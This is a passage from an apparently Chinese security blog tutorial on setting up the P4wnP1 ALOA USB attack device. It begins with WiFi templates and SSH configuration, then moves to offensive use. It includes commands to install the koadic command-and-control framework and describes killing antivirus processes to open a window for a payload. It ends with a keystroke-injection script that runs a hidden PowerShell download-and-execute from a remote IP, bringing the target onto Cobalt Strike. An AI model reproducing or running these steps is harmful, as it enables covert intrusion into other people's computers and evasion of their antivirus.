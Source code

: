 模板编辑，存放之前编辑的设置，每次开机会套用这里的模板

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAw5q6BYdyvpK1WJ8icRib4rVQEbibrV7AlWmXEQngQnR2FSX4yvuz6ZM41ho91hbYJqrHBIQffyehibg/640?wx_fmt=png)

如果你想开机加载的`WiFi`为你设置的`WiFi`，首先要在`WiFi settings`模块中上传你的`WiFi`模板，然后按下图设置后点`REBOOT`即可，如果你还想做其他开机启动操作都是类似的

以 WIFI 举例，先设置好自己的 WIFI 模式，并点保存。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAw5q6BYdyvpK1WJ8icRib4rVjibLibRup7dyiahiaesf5FTyUOgBnfmCAQ6aUauvMDuEYMic6ibJOeaRaLVQ/640?wx_fmt=png)

然后在设置里面选择 WIFI 模板

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAw5q6BYdyvpK1WJ8icRib4rVoMPOgCk8AQFFO9gDWODicaPg2rnicKibEUaBicdRCDtdibgCvZGPmtpOALw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAw5q6BYdyvpK1WJ8icRib4rVHTI6NEfdhxdDSAybQ3QN6mUdHWCMRibtg6N4FRDZg3qzm3aMFdZGaHw/640?wx_fmt=png)

**一定要检查 WIFI 模板的配置，防止无法连接。**另外还有备份与恢复功能，通过数据库进行备份、恢复。

SSH 端
-----

SSH 进去首先先改密码！

P4wnP1_aloa 的 web 目录在 `/root/P4wnP1/dist`

`ssh`也可以做`web`的工作，官方根据官方给出的文档输入`P4wnP1_cli -h`可以查看帮助文档，ssh 端有些设置只能一次性修改，不能保存，这里不详述。

```
git clone https://github.com/zerosum0x0/koadic.git
pip3 install -r requirements.txt
./koadic
```

比如我们可以设置 LED 灯

P4wnP1_cli led -b 数字 设定指示灯闪烁频率 0 就不亮了，数字越大越快，这个可以结合上文提到的`Trigger Action` 进行操作回显，比如判断是否成功等等，还有很多联动的方式。

实战
==

在使用过程中经常会遇到存在杀软的情况，不过发现火绒剑可以直接结束掉 360 和火绒自己的进程（火绒似乎不会恢复？）。有兴趣的师傅可以看看怎么利用。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAw5q6BYdyvpK1WJ8icRib4rVN4Vlyse1mF5aD0rv1jnxicrDbIYFOuNqFIeJzhhu0dSb1nvWvEIdGuw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAw5q6BYdyvpK1WJ8icRib4rV1ZWVnkFmRExsjoavB5SP2U0G340jZ9bwGKictBU7fjkDatRg7kQfRpw/640?wx_fmt=png)

火绒进程被杀掉之后不会重新启动，360 会在大约 1 分钟左右再次自己启动，利用这个空挡可以上线东西了。

目标机器上线 CS
---------

```
layout('us');           // US keyboard layout
typingSpeed(0,0);
press("GUI r");
delay(500);
type("powershell\n")
delay(500);
type("powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://1**.**.**.94:8083/a'))\"")
delay(500);
type("\n")
```
